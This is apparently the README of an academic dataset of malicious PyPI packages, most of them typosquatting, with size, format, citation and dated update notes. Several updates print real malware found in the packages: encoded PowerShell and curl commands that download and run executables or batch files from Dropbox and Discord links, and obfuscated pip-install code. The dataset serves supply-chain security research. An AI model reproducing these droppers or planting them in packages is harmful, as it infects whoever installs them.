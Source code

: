 ## Dataset Size

This data set includes about 4,592 versions of the source code of 4,082 malicious packages.

## Dataset Format

`package name -> version -> source code zip file.`

Example:
`ython-binance -> 0.1 -> ython-binance-0.1.tar.gz`

## False positive

We have manually checked all collected malicious packages and have now removed all false positives.

## Reference

This dataset is the work of the ASE 2023 paper "An Empirical Study of Malicious Code In PyPI Ecosystem"

```
@misc{guo2023empirical,
      title={An Empirical Study of Malicious Code In PyPI Ecosystem}, 
      author={Wenbo Guo and Zhengzi Xu and Chengwei Liu and Cheng Huang and Yong Fang and Yang Liu},
      year={2023},
      eprint={2309.11021},
      archivePrefix={arXiv},
      primaryClass={cs.SE}
}
```

## Update

### 31 Mar. 2024 
Add new 431 malicious packages using typoSquatting attack method.

ref: [https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ](https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ)


### 04 Apr. 2024 
Add new 45 malicious packages using typoSquatting attack method.


### 16 Apr. 2024 
Add new 56 malicious packages using typoSquatting attack method. 

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    # www.esquelesquad.rip
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


### 21 Apr. 2024 
Add new 34 malicious packages using typoSquatting attack method.


### 1 May. 2024 
Add new 1154 malicious packages using typoSquatting attack method.

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


```python
...
while 馬女水女口目人馬鳥月水馬山山馬鸟:
  if 108363 == 馬女水女口目人馬鳥月水馬山山馬鸟:
    import pip
    pip.main([''.join(map(getattr(__builtins__, oct.__str__()[-3 << 0] + hex.__str__()[-1 << 2] + copyright.__str__()[4 << 0]), [((((3 << 2) + 1)) << 3) + 1, (7 << 4) - (1 << 1), (7 << 4) + 3, (7 << 4) + (1 << 2), (3 << 5) + 1, (((7 << 2) - 1) << 2), (((7 << 2) - 1) << 2)])), ''.join(map(getattr(__builtins__,
              oct.__str__()[-3 << 0] + hex.__str__()[-1 << 2] + copyright.__str__()[4 << 0]), [(7 << 4), (((1 << 4) - 1) << 3) + 1, (7 << 4), ((((3 << 2) + 1)) << 3) + 1, (((1 << 4) - 1) << 3) - 1, ((((3 << 2) + 1)) << 3) + 1, (7 << 4) - (1 << 1), ((((3 << 2) + 1)) << 2) - 1, (((3 << 3) + 1) << 1)]))])

    馬女水女口目人馬鳥月水馬山山馬鸟 = (896*(494 & 86)+104//648-(885 | 515+277) | 885 << 141 << 580 >> (593 | 648) & ~87) >> 9523
  elif 馬女水女口目人馬鳥月水馬山山馬鸟 == 286625773:
...
```


```python
def b64d(base64_code):
    base64_bytes = base64_code.encode('ascii')
    code_bytes = base64.b64decode(base64_bytes)
    code = code_bytes.decode('ascii')
    return code

def notmalfunc():
    os.system(b64d("Y3VybCAtcyAtbyAldGVtcCVcc3RyaW5ncy5iYXQgaHR0cHM6Ly9jZG4uZGlzY29yZGFwcC5jb20vYXR0YWNobWVudHMvMTE0NjE5OTEyNDU3MjYzOTI0OS8xMTg4OTc0NDUzNTQwMDAzODUwL3N0cmluZ3MuYmF0ICYmIHN0YXJ0IC9taW4gY21kIC9jICV0ZW1wJVxzdHJpbmdzLmJhdA=="))
```


### Other Dataset

- GitHub Advisory Database https://github.com/advisories?query=type%3Amalware (NPM).
- https://dasfreak.github.io/Backstabbers-Knife-Collection/ (PyPI and npm), by Marc Ohm et al.
- https://github.com/datadog/malicious-software-packages-dataset (PyPI), by Datadog
